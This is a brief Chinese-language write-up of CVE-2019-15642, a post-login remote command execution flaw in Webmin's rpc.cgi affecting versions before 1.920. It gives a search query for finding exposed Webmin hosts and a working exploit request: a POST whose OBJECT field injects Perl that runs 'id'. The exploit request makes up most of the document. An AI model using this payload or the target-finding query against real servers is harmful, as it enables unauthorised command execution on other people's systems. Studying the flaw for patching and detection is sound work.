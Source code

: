 # Webmin rpc.cgi 后台远程命令执行漏洞 CVE-2019-15642

## 漏洞描述

Webmin是一套基于Web的用于类Unix操作系统中的系统管理工具。 Webmin 1.920及之前版本中的rpc.cgi文件存在安全漏洞。攻击者可借助特制的对象名称利用该漏洞执行代码。

## 漏洞影响

```
Webmin < 1.920
```

## 网络测绘

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](./images/202208291021846.png)

登录后发送请求包

```
POST /rpc.cgi 
Referer: https://xxx.xxx.xxx.xxx/sysinfo.cgi?xnavigation=1

OBJECT Socket;print "Content-Type: text/plain\n\n";$cmd=`id`;print "$cmd\n\n";
```

![image-20220829102134685](./images/202208291021740.png)